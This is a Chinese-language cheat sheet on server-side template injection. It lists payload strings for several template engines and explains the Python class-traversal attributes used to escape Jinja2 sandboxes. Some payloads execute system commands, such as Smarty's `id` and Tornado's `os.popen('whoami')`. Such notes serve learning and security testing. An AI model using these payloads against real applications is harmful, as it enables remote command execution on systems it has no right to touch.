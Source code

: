- Twig

```
{{7*7}}
```

- Smarty

```
{php}echo `id`;{/php}
```

- AngularJS

```
$eval('1+1')
```

- Tornado

```
引用模块 {% import module %}
=> {% import os %}{{ os.popen("whoami").read() }}
```

- Flask/Jinja2

```
{{ config.items() }}
{{''.__class__.__mro__[-1].__subclasses__()}}
```

- Django

```
{{ request }}
{% debug %}
{% load module %}
{% include "x.html" %}
{% extends "x.html" %}
```

### Python SSTI 相关属性

1. `__class__`: python 中的新式类（即显示继承 object 对象的类）都有一个属性 `__class__` 用于获取当前实例对应的类，例如 `"".__class__` 就可以获取到字符串实例对应的类

```
>>> print("".__class__)
<class 'str'>
```

2. `__base__`: 获取某个类的父(基)类

```
>>> print("".__class__.__base__)
<class 'object'>
```

3. `__mro__`: python 中类对象的 **mro** 属性会返回一个 tuple 对象，其中包含了当前类对象所有继承的基类，tuple 中元素的顺序是 MRO（Method Resolution Order） 寻找的顺序。

```
>>> print("".__class__.__mro__)
(<class 'str'>, <class 'object'>)
```

4. `__subclasses__()`: python 的新式类都保留了它所有的子类的引用，**subclasses**()这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。  
   因为 python 中的类都是继承 object 的，所以只要调用 object 类对象的 **subclasses**() 方法就可以获取想要的类的对象。

> > > print(().**class**.**mro**[1].**subclasses**())